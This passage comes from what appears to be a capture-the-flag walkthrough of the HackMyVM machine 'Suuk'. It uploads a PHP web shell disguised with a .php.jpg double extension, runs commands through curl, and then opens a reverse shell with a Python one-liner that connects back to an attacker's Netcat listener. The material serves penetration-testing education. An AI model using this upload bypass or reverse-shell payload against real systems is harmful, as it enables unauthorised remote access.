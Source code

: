 We have successfully uploaded a shell but with a .jpg extension, this extension will prevent the web server from executing the code. Depending on the configuration of the web server, it can execute PHP code in a file as long as the file has .php in its name i.e. even if the file has a second extension like test.php.png the code in the file will be executed. Let's upload a file with the .php.jpg extension.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-14-suuk/success-msg-2.png){: .center}

Now, we can check if the misconfiguration mentioned above is enabled on our target by attempting to execute the web shell.
```bash
┌──(pentester㉿kali)-[~/Suuk]
└─$curl http://10.0.2.13/upload/shell.php.jpg?cmd=id                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Exploitation

We can see from the result above that this misconfiguration is enabled on our target. Next, we can use this web shell to obtain a reverse shell. First, let's start a Netcat listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Suuk/]
└─$nc -lvnp 1234                                  
listening on [any] 1234 ...
```
We can now execute the Python code below on our target to start a tty reverse shell.
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.9",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Suuk]
└─$curl http://10.0.2.13/upload/shell.php.jpg?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.0.2.9%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

When we go back to the listener, we will notice a connection from our target.
```bash
┌──(pentester㉿kali)-[~/Suuk/Scans/Service]
└─$nc -lvnp 1234                                  
listening on [any] 1234 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.13] 37346
www-data@kuus:/var/www/html/upload$ whoami
whoami
www-data
www-data@kuus:/var/www/html/upload$ 
```
